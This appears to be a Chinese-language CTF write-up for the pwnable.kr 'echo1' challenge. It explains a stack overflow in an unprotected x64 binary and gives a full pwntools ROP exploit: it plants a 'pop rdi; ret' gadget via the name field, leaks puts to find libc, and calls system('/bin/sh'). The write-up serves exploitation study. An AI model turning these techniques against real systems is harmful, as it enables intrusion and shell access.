 
# [Rookiss] echo1

只有功能1可以使用，是一个比较明显的溢出(x64)，程序没有开任何保护

![](/img/pwnable-kr-study/20210319001.png)

ret2shellcode使用`jmp rsp`即可，比较简单，用rop来做一下这个题

```c
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(s, 128LL);
  puts(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```

s的位置在 `rbp-20h`, 那么需要溢出到 `0x20 + 8`，通常办法是使用 `system`，那么就需要找一个 `pop rdi;ret` 的gadget，然而并找不到 

![](/img/pwnable-kr-study/20210319002.png)

回过头来看到程序中存在bss段上8位长度的变量id

```c
printf("hey, what's your name? : ");
__isoc99_scanf("%24s", v6);
v3 = o;
*(_QWORD *)o = v6[0];
v3[1] = v6[1];
v3[2] = v6[2];
id = v6[0];
```

由于v6是自己输入的名字，所以是可控的，那么可以考虑在这个地方写入`pop rdi;ret`来实现rop，接下来就是非常常见的方法，通过泄漏puts函数地址确定基址，然后构造 `system('/bin/sh')` 即可，exp如下

```python
from pwn import *

# io = remote('pwnable.kr', 9010)
io = process('./echo1')
elf = ELF('./echo1')

context.arch='amd64'
context.log_level = 'DEBUG'

id_addr = p64(elf.sym['id'])
echo_func = p64(elf.sym['echo1'])
puts_plt = p64(elf.plt['puts'])
puts_got = p64(elf.got['puts'])

payload = 'A' * 0x20 + id_addr * 2 + puts_got + puts_plt + echo_func
io.sendlineafter('hey, what\'s your name? :', asm('pop rdi;ret'))
io.sendlineafter('>', '1')
io.sendline(payload)
puts_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
libc_base = (puts_addr - 0x06f6a0)
system_addr = p64(libc_base + 0x0453a0)
bin_sh = p64(libc_base + 0x18ce17)
print 'libc base ===> %s' % hex(libc_base)
payload = 'A' * 0x20 + id_addr * 2 + bin_sh + system_addr
io.sendline(payload)
```